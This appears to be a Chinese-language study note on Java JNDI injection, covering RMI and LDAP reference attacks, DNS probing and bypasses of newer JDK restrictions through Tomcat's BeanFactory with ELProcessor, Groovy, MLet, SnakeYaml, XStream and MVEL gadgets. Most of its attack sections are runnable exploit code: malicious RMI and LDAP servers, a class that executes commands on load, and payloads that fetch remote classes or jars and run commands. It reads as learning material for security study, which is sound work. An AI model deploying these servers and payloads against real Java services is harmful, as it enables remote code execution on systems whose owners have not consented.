


---
tags:
    - Web Sec
    - Java
comments: true
---

# JNDI注入漏洞

JNDI 注入，即当开发者在定义 JNDI 接口初始化时，lookup() 方法的参数可控，攻击者就可以将恶意的 url 传入参数远程加载恶意载荷，造成注入攻击。

2016年BlackHat大会上[us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf){target="_blank"}提到了包括RMI、LDAP、CORBA的JNDI注入方式攻击方式，被广泛的利用于近年来的各种JNDI注入漏洞。参考资料 [JNDI注入原理及利用](https://xz.aliyun.com/t/12277){target="_blank"}

前置知识参考[JNDI](/CS/PL/Java/JavaSec/java_fund/#112-jndi)

{loading=lazy width=90%}

**JNDI可利用版本**

协议|JDK6|JDK7|JDK8|JDK11
---|---|---|---|---
LADP|6u211以下|7u201以下|8u191以下|11.0.1以下
RMI|6u132以下|7u122以下|8u113以下|无

## JNDI 注入
### JNDI+RMI

对于如下JNDI服务：

=== "RMI Server"

    ```java
    import java.rmi.registry.LocateRegistry;
    import java.rmi.registry.Registry;
    import javax.naming.Reference;
    import com.sun.jndi.rmi.registry.ReferenceWrapper;

    public class RMIServer {
        public static void main(String[] args) throws Exception{
            Registry registry = LocateRegistry.createRegistry(7778);
            Reference reference = new Reference("Calc","Calc","http://127.0.0.1:8087/");
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("RCE",wrapper);
        }
    }
    ```

=== "RMI Client"

    ```java
    import javax.naming.InitialContext;
    import javax.naming.NamingException;
    public class RMIClient {
        public static void main(String[] args) throws NamingException{
            String uri = "rmi://127.0.0.1:7778/RCE";
            InitialContext initialContext = new InitialContext();
            initialContext.lookup(uri);
        }
    }
    ```
=== "Malicious Class"

    ```java
    public class Calc {
        public Calc() throws Exception {
            Runtime.getRuntime().exec("calc");
        }
    }
    ```

通过python在Calc.class所在目录启动一个http服务：

```bash
python -m HTTP.server 8087
```

运行后Client会向7778端口的Server发送请求，Server会返回一个Reference对象指向8087端口的Calc类，Client接收到Reference对象后会调用Calc类的构造函数，从而执行`Runtime.getRuntime().exec("calc");`。

<figure markdown="1">
{loading=lazy width=90%}
<figcaption>JNDI+RMI攻击</figcaption>
</figure>

### JNDI+LDAP

LDAP全称是轻量级目录访问协议（The Lightweight Directory Access Protocol），它提供了一种查询、浏览、搜索和修改互联网目录数据的机制，运行在TCP/IP协议栈之上，基于C/S架构。除了RMI服务之外，JNDI也可以与LDAP目录服务进行交互，Java对象在LDAP目录中也有多种存储形式：

- Java序列化
- JNDI Reference
- Marshalled对象
- Remote Location (已弃用)

LDAP可以为存储的Java对象指定多种属性：

- javaCodeBase
- objectClass
- javaFactory
- javaSerializedData
- ...

javaCodebase 属性可以指定远程的URL，攻击者可以通过JNDI Reference的方式进行利用

=== "LDAP Server"

    ```java
    import java.net.InetAddress;
    import java.net.MalformedURLException;
    import java.net.URL;
    import javax.net.ServerSocketFactory;
    import javax.net.SocketFactory;
    import javax.net.ssl.SSLSocketFactory;
    import com.unboundid.ldap.listener.InMemoryDirectoryServer;
    import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
    import com.unboundid.ldap.listener.InMemoryListenerConfig;
    import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
    import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
    import com.unboundid.ldap.sdk.Entry;
    import com.unboundid.ldap.sdk.LDAPException;
    import com.unboundid.ldap.sdk.LDAPResult;
    import com.unboundid.ldap.sdk.ResultCode;

    public class LDAPServer {
        private static final String LDAP_BASE = "dc=example,dc=com";


        public static void main (String[] args) {

            String url = "http://127.0.0.1:8081/#Calculator";
            int port = 1234;


            try {
                InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
                config.setListenerConfigs(new InMemoryListenerConfig(
                        "listen",
                        InetAddress.getByName("0.0.0.0"),
                        port,
                        ServerSocketFactory.getDefault(),
                        SocketFactory.getDefault(),
                        (SSLSocketFactory) SSLSocketFactory.getDefault()));

                config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
                InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
                System.out.println("Listening on 0.0.0.0:" + port);
                ds.startListening();

            }
            catch ( Exception e ) {
                e.printStackTrace();
            }
        }

        private static class OperationInterceptor extends InMemoryOperationInterceptor {

            private URL codebase;

            public OperationInterceptor ( URL cb ) {
                this.codebase = cb;
            }

            @Override
            public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
                String base = result.getRequest().getBaseDN();
                Entry e = new Entry(base);
                try {
                    sendResult(result, base, e);
                }
                catch ( Exception e1 ) {
                    e1.printStackTrace();
                }

            }


            protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
                URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
                System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
                e.addAttribute("javaClassName", "Exploit");
                String cbstring = this.codebase.toString();
                int refPos = cbstring.indexOf('#');
                if ( refPos > 0 ) {
                    cbstring = cbstring.substring(0, refPos);
                }
                e.addAttribute("javaCodeBase", cbstring);
                e.addAttribute("objectClass", "javaNamingReference");
                e.addAttribute("javaFactory", this.codebase.getRef());
                result.sendSearchEntry(e);
                result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
            }

        }
    }
    ```
=== "LDAP Client"

    ```java
    import javax.naming.InitialContext;
    import javax.naming.NamingException;


    public class LDAPClient {
        public static void main(String[] args) throws NamingException{
            String url = "ldap://127.0.0.1:1234/Calculator";
            InitialContext initialContext = new InitialContext();
            initialContext.lookup(url);
        }

    }
    ```

攻击方式同上

### DNS

JNDI 注入可以利用 RMI 协议和LDAP 协议搭建服务然后执行命令，但缺点在于，没有确定存在漏洞前，使用 RMI 或者 LDAP 去执行命令，服务器通过日志可分析得到攻击者的 IP。为了解决这个问题，可以使用DNS 协议进行探测，通过 DNS 协议去探测是否真的存在漏洞，再去利用 RMI 或者 LDAP 去执行命令，避免过早暴露服务器 IP，这也是平常大多数人习惯使用 DNSLog 探测的原因之一，同样的 ldap 和 rmi 也可以使用 DNSLog 平台去探测。

## JNDI 绕过

高版本JDK在RMI和LDAP的trustURLCodebase都做了限制，从默认允许远程加载ObjectFactory变成了不允许。对于Oracle JDK 11.0.1、8u191、7u201、6u211或者更高版本的JDK来说，默认环境下之前这些利用方式都已经失效。然而，我们依然可以进行绕过并完成利用。两种绕过方法如下：

1. 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
2. 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。

这两种方式都非常依赖受害者本地CLASSPATH中环境，需要利用受害者本地的Gadget进行攻击。

### 利用本地Class作为Reference Factory

在高版本中我们依然可以在返回的Reference中指定Factory Class，这个工厂类必须在受害目标本地的CLASSPATH中。工厂类必须实现 `javax.naming.spi.ObjectFactory` 接口，并且至少存在一个 getObjectInstance() 方法。`org.apache.naming.factory.BeanFactory` 刚好满足条件并且存在被利用的可能。`org.apache.naming.factory.BeanFactory` 存在于Tomcat依赖包中。

`org.apache.naming.factory.BeanFactory` 在 getObjectInstance() 中会通过反射的方式实例化Reference所指向的任意Bean Class，并且会调用setter方法为所有的属性赋值。而该Bean Class的类名、属性、属性值，全都来自于Reference对象，均是攻击者可控的。

!!! tips
    根据beanFactory的代码逻辑，要求传入的Reference为ResourceRef类

目标Bean Class必须有一个无参构造方法，有public的setter方法且参数为一个String类型。事实上，这些setter不一定需要是set..开头的方法，根据`org.apache.naming.factory.BeanFactory`中的逻辑，我们可以把某个方法强制指定为setter。

??? note "BeanFactory"

    obj是攻击者返回的Reference对象、name是攻击者指定的类名（uri部分）、nameCtx则是攻击者LDAP地址的解析（IP、端口等）。

    ```java
    public class BeanFactory implements ObjectFactory {
        public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?,?> environment) throws NamingException {
            if (obj instanceof ResourceRef) {
                try {

                    Reference ref = (Reference) obj;
                    String beanClassName = ref.getClassName();
                    Class<?> beanClass = null;
                    ClassLoader tcl =
                        Thread.currentThread().getContextClassLoader();
                    if (tcl != null) {
                        try {
                            beanClass = tcl.loadClass(beanClassName);
                        } catch(ClassNotFoundException e) {
                        }
                    } else {}

                    BeanInfo bi = Introspector.getBeanInfo(beanClass);
                    PropertyDescriptor[] pda = bi.getPropertyDescriptors();
                    Object bean = beanClass.getConstructor().newInstance(); // 实例化对象，需要无参构造函数！！

                    // 从Reference中获取forceString参数
                    RefAddr ra = ref.get("forceString");
                    Map<String, Method> forced = new HashMap<>();
                    String value;
                    // 对forceString参数进行分割
                    if (ra != null) {
                        value = (String)ra.getContent();
                        Class<?> paramTypes[] = new Class[1];
                        paramTypes[0] = String.class;
                        String setterName;
                        int index;

                        /* Items are given as comma separated list */
                        for (String param: value.split(",")) {  // 使用逗号分割参数
                            param = param.trim();
                            index = param.indexOf('=');
                            if (index >= 0) {
                                setterName = param.substring(index + 1).trim();  // 等号后面强制设置为setter方法名
                                param = param.substring(0, index).trim();  // 等号前面为属性名
                            } else {}
                            try {
                                // 根据setter方法名获取setter方法，指定forceString后就是我们指定的方法，但注意参数是String类型！
                                forced.put(param, beanClass.getMethod(setterName, paramTypes));  
                            } catch (NoSuchMethodException|SecurityException ex) {
                                throw new NamingException
                                    ("Forced String setter " + setterName +
                                    " not found for property " + param);
                            }
                        }
                    }

                    Enumeration<RefAddr> e = ref.getAll();

                    while (e.hasMoreElements()) {  // 遍历Reference中的所有RefAddr
                        ra = e.nextElement();
                        String propName = ra.getType();  // 获取属性名
                        // 过滤一些特殊的属性名，例如前面的forceString
                        if (propName.equals(Constants.FACTORY) ||
                            propName.equals("scope") || propName.equals("auth") ||
                            propName.equals("forceString") ||
                            propName.equals("singleton")) {
                            continue;
                        }

                        value = (String)ra.getContent();  // 属性名对应的参数
                        Object[] valueArray = new Object[1];

                        /* Shortcut for properties with explicitly configured setter */
                        Method method = forced.get(propName);  // 根据属性名获取对应的方法
                        if (method != null) {
                            valueArray[0] = value;
                            try {
                                method.invoke(bean, valueArray);  // 执行方法，可用用forceString强制指定某个函数
                            } catch () {}
                            continue;
                        }
            // 省略
                    }
                }
            }
        }
    } 
    ```

根据源代码的逻辑，在ldap或rmi服务器，满足以下条件的RefAddr

- 该类必须有无参构造方法
- 并在其中设置一个forceString字段指定某个特殊方法名，该方法执行String类型的参数
- 通过上面的方法和一个String参数即可实现RCE

####  javax.el.ELProcessor.eval

`javax.el.ELProcessor`常被作为目标Class。启动RMI Server的利用代码如下：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        // 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);

        // 强制将 'x' 属性的setter 从 'setX' 变为 'eval', 详细逻辑见 BeanFactory.getObjectInstance 代码
        ref.add(new StringRefAddr("forceString", "CC=eval"));

        // 指定bitterz属性指定其setter方法需要的参数，实际是ElProcessor.eval方法执行的参数，利用表达式执行命令
        ref.add(new StringRefAddr("CC", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));

        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("Calc", referenceWrapper);  // 绑定目录名
        System.out.println("Server Started!");
    }
}
```

ELProcessor.eval()会对EL表达式进行求值，最终达到命令执行的效果

#### groovy.lang.GroovyClassLoader.parseClass(String text)

groovy中同样存在基于一个String参数触发的方法`parseClass`，利用服务端代码如下

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import groovy.lang.GroovyClassLoader;

public class RMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "CC=parseClass"));
        String script = "@groovy.transform.ASTTest(value={\n" +
                "    assert java.lang.Runtime.getRuntime().exec(\"calc\")\n" +
                "})\n" +
                "def x\n";
        ref.add(new StringRefAddr("CC",script));

        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("RCE", referenceWrapper);
    }
}
```

`groovy.lang.GroovyShell` 中的 evaluate 方法也可以实现类似的效果

### 利用LDAP返回序列化数据，触发本地Gadget

高版本JVM对Reference Factory远程加载类进行了安全限制，JVM不会信任LDAP对象反序列化过程中加载的远程类，但攻击者仍然可以利用受害者本地CLASSPATH中存在漏洞的反序列化Gadget达到绕过限制执行命令的目的。

简而言之，LDAP Server除了使用JNDI Reference进行利用之外，还支持直接返回一个对象的序列化数据。如果Java对象的 javaSerializedData 属性值不为空，则客户端的 obj.decodeObject() 方法就会对这个字段的内容进行反序列化。

例如目标系统中存在 CommonsCollections 库，我们就可以使用ysoserial进行反序列化攻击

```java title="LDAP Server"

protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws LDAPException, MalformedURLException {
    URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
    System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
    e.addAttribute("javaClassName", "foo");
    String cbstring = this.codebase.toString();
    int refPos = cbstring.indexOf('#');
    if ( refPos > 0 ) {
        cbstring = cbstring.substring(0, refPos);
    }

    try {
        // java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 '/Applications/Calculator.app/Contents/MacOS/Calculator'|base64
        e.addAttribute("javaSerializedData",Base64.decode(payload));
    } catch (ParseException e1) {
        e1.printStackTrace();
    }

    result.sendSearchEntry(e);
    result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
}
```

这种绕过方式需要利用一个本地的反序列化利用链（如CommonsCollections），然后可以结合Fastjson等漏洞入口点和JdbcRowSetImpl进行组合利用。

## 其他绕过技巧

### 基于 BeanFactory

上文提到了利用`org.apache.naming.factory.BeanFactory`进行利用，EL和Groovy之所以能打是因为LDAP和RMI在收到服务端反序列化来的Reference对象后根据classFactory属性从本地classpath中实例化一个 ObjectFactory 对象，然后调用这个对象的 getObjectInstance 方法

只要满足之前提到三个条件的类均可以通过BeanFactory进行利用

#### javax.management.loading.MLet

MLet是JDK自带的类，继承自 URLClassloader，有一个无参构造方法，还有一个 addURL(String)方法，它的父类还有一个 loadClass(String)方法。

```java
MLet mLet = new MLet();
mLet.addURL("http://127.0.0.1:2333/");
mLet.loadClass("Exploit");
```

这样可以通过MLet实现远程加载类，但要想执行远程类的代码必须经过初始化或者实例化，单靠加载无法触发 static 代码块，所以无法 RCE。

MLet可以通过报错信息来检测本地环境是否存在某些类可以加载，如果类加载成功后面就能够访问远程类。反之如果第一次类加载失败就会抛出异常结束。

??? note "code"

    ```java
    private static ResourceRef tomcatMLet() {
        ResourceRef ref = new ResourceRef("javax.management.loading.MLet", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=loadClass,b=addURL,c=loadClass"));
        ref.add(new StringRefAddr("a", "javax.el.ELProcessor"));
        ref.add(new StringRefAddr("b", "http://127.0.0.1:2333/"));
        ref.add(new StringRefAddr("c", "Test"));
        return ref;
    }
    ```

[JNDI 注入利用工具](https://github.com/X1r0z/JNDIMap)

#### GroovyClassLoader

和MLet基本原理一样，但GroovyClassLoader可以实现RCE(不过 Groovy 有 `groovy.lang.GroovyShell`可以用)

??? note "code"

    ```java title="Server"
    private static ResourceRef tomcatGroovyClassLoader() {
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=addClasspath,b=loadClass"));
        ref.add(new StringRefAddr("a", "http://127.0.0.1:8888/"));
        ref.add(new StringRefAddr("b", "CC"));
        return ref;
    }
    ```

    ```groovy title="CC.groovy"
    @groovy.transform.ASTTest(value={assert Runtime.getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator")})
    class Person{}
    ```

#### SnakeYaml

??? note "code"

    ```java title="org.yaml.snakeyaml.Yaml().load(String)"
    private static ResourceRef tomcat_snakeyaml(){
        ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        String yaml = "!!javax.script.ScriptEngineManager [\n" +
                "  !!java.net.URLClassLoader [[\n" +
                "    !!java.net.URL [\"http://127.0.0.1:8888/exp.jar\"]\n" +
                "  ]]\n" +
                "]";
        ref.add(new StringRefAddr("forceString", "a=load"));
        ref.add(new StringRefAddr("a", yaml));
        return ref;
    }
    ```

#### XStream

??? note "code"

    ```java title="com.thoughtworks.xstream.XStream.fromXML(String)"
    private static ResourceRef tomcat_xstream(){
        ResourceRef ref = new ResourceRef("com.thoughtworks.xstream.XStream", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        String xml = "<java.util.PriorityQueue serialization='custom'>\n" +
                "  <unserializable-parents/>\n" +
                "  <java.util.PriorityQueue>\n" +
                "    <default>\n" +
                "      <size>2</size>\n" +
                "    </default>\n" +
                "    <int>3</int>\n" +
                "    <dynamic-proxy>\n" +
                "      <interface>java.lang.Comparable</interface>\n" +
                "      <handler class='sun.tracing.NullProvider'>\n" +
                "        <active>true</active>\n" +
                "        <providerType>java.lang.Comparable</providerType>\n" +
                "        <probes>\n" +
                "          <entry>\n" +
                "            <method>\n" +
                "              <class>java.lang.Comparable</class>\n" +
                "              <name>compareTo</name>\n" +
                "              <parameter-types>\n" +
                "                <class>java.lang.Object</class>\n" +
                "              </parameter-types>\n" +
                "            </method>\n" +
                "            <sun.tracing.dtrace.DTraceProbe>\n" +
                "              <proxy class='java.lang.Runtime'/>\n" +
                "              <implementing__method>\n" +
                "                <class>java.lang.Runtime</class>\n" +
                "                <name>exec</name>\n" +
                "                <parameter-types>\n" +
                "                  <class>java.lang.String</class>\n" +
                "                </parameter-types>\n" +
                "              </implementing__method>\n" +
                "            </sun.tracing.dtrace.DTraceProbe>\n" +
                "          </entry>\n" +
                "        </probes>\n" +
                "      </handler>\n" +
                "    </dynamic-proxy>\n" +
                "    <string>/System/Applications/Calculator.app/Contents/MacOS/Calculator</string>\n" +
                "  </java.util.PriorityQueue>\n" +
                "</java.util.PriorityQueue>";
        ref.add(new StringRefAddr("forceString", "a=fromXML"));
        ref.add(new StringRefAddr("a", xml));
        return ref;
    }
    ```

#### MVEL

MVEL的入口`org.mvel2.MVEL#eval(String)`因为无参构造方法是private修饰的，所以不符合条件，但其中存在可用的类。

从`org.mvel2.sh.ShellSession#exec(String)`进入会按照内置的几个命令进行处理。

```
"help" -> {Help@706} 
"exit" -> {Exit@708} 
"cd" -> {ChangeWorkingDir@710} 
"set" -> {Set@712} 
"showvars" -> {ShowVars@714} 
"ls" -> {DirList@716} 
"inspect" -> {ObjectInspector@718} 
"pwd" -> {PrintWorkingDirectory@720} 
"push" -> {PushContext@722} 
```

其中PushContext类有调用MVEL.eval去解析表达式，因此能够通过 ShellSession.exec(String) 去执行push命令，从而解析MVEL表达式

??? note "code"

    ```java
    private static ResourceRef tomcat_MVEL(){
        ResourceRef ref = new ResourceRef("org.mvel2.sh.ShellSession", null, "", "",
                true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "a=exec"));
        ref.add(new StringRefAddr("a",
                "push Runtime.getRuntime().exec('/System/Applications/Calculator.app/Contents/MacOS/Calculator');"));
        return ref;
    }
    ```


## 参考资料

[如何绕过高版本 JDK 的限制进行 JNDI 注入利用](https://paper.seebug.org/942/){target="_blank"}
[java高版本下各种JNDI Bypass方法复现](https://www.cnblogs.com/bitterz/p/15946406.html){target="_blank"}
[探索高版本 JDK 下 JNDI 漏洞的利用方法](https://tttang.com/archive/1405/){target="_blank"}
